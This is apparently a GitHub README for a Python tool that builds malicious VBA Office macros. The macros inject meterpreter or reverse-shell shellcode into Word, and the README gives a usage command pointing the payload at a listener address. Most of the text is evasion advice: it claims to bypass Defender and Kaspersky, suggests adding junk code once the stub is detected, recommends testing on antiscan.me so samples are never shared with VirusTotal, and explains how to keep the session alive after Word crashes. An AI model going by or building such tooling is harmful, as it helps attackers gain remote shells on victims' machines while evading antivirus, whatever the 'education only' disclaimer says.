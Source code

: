 # vba_bin_runner
Basic python tools to generate shellcode runner in vba
The stub use ZwAllocateVirtualMemory to allocate memory, RtlMoveMemory to write memory and EnumDateFormatsW to execute shellcode.

You can generate meterpreter/reverse_http (compatible cobalt strike), reverse_tcp and reverse_shell. 
In antiscan.me i have 0/26 detections in scantime. In runtime i bypass Defender and Kaspersky but if you use c2 some function can be detected by AV.

If the stub is detected you can edit/add junk code and change the function to allocate/write/execute. 
You can Easier  edit this with : https://github.com/karttoon/trigen/blob/master/function_VBA_notes.txt

The macro self inject shellcode in word process, after macro is enabled the Word Application crash, if you want to patch this you can edit stub to inject shellcode in other process (explorer.exe for exemple).
If you use meterpreter you can add automigrate in your listener to keep connection after Word Application crash.

To keep stub long time no-detect use antiscan.me to check and no virus total. 

NB : Please don't use this for illegal activity

# How to use
Python main.py -p 1 -L 192.168.1.17 -P 80 -o /home/kali/Desktop/test.vba

 -p : Is for the choice of payload
 
      1 -> windows/meterpreter/reverse_http
      
      2 -> windows/meterpreter/reverse_tcp
      
      3 -> windows/shell_reverse_tcp
      
      
 -L : Is for the ip of listener
 
 -P : Is for the port of listener
 
 -o : Is for the destination output of payload
 
 
 The tools use msfvenom to generate payload.

# For education only
